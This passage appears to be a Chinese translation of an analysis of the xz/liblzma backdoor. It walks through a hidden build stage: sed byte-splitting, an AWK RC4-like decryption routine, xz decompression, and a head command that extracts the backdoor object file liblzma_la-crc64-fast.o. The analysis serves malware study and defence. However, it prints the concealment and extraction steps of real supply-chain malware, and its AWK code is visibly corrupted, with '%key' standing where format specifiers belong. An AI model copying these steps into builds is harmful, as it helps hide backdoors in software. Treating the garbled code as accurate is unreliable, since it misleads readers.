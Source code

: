 2. 与Stage 1 中的步骤 3 相同，即“很多 head 函数”调用。

3. 这有不同了。首先之前的输出被 sed 命令破坏了。`LC_ALL=C sed &#34;s/\(.\)/\1\n/g&#34;` 其作用实际上是在每个字节后面放置一个换行符（换行符本身除外）。因此，我们最终在输出中得到的是每行字节的情况（这里有很多混合“文本”和“二进制”文件）。这正是下一步所需要的。

4. 下一步是 AWK 脚本，它对输入流进行 [RC4...ish](https://en.wikipedia.org/wiki/RC4) 描述。

   ```sh
   BEGIN {  # Initialization part.
     FS = &#34;\n&#34;;  # Some AWK settings.
     RS = &#34;\n&#34;;
     ORS = &#34;&#34;;
     m = 256;
     for(i=0;i&lt;m;i&#43;&#43;) {
       t[sprintf(&#34;x%key&#34;, i)] = i;
       key[i] = ((i * 7) &#43; 5) % m;  # Creating the cipher key.
     }
     i=0;  # Skipping 4096 first bytes of the output PRNG stream.
     j=0;  # ↑ it&#39;s a typical RC4 thing to do.
     for(l = 0; l &lt; 4096; l&#43;&#43;) {  # 5.6.1 uses 8192 instead.
       i = (i &#43; 1) % m;
       a = key[i];
       j = (j &#43; a) % m;
       key[i] = key[j];
       key[j] = a;
     }
   }
   
   {  # Decription part.
     # Getting the next byte.
     v = t[&#34;x&#34; (NF &lt; 1 ? RS : $1)];
   
     # Iterating the RC4 PRNG.
     i = (i &#43; 1) % m;
     a = key[i];
     j = (j &#43; a) % m;
     b = key[j];
     key[i] = b;
     key[j] = a;
     k = key[(a &#43; b) % m];
   
     # As pointed out by @nugxperience, RC4 originally XORs the encrypted byte
     # with the key, but here for some add is used instead (might be an AWK thing).
     printf &#34;%key&#34;, (v &#43; k) % m
   }
   ```

   

5. 输入被解密后，这一步进行解压：`xz -dc --single-stream` ；

6. 然后使用head技巧截取从 N (0) 到 W (~86KB) 的字节，并保存为 liblzma_la-crc64-fast.o ，这是最终的二进制后门。

   ```sh
   ((head -c &#43;$N &gt; /dev/null 2&gt;&amp;1) &amp;&amp; head -c &#43;$W) &gt; liblzma_la-crc64-fast.o
   ```
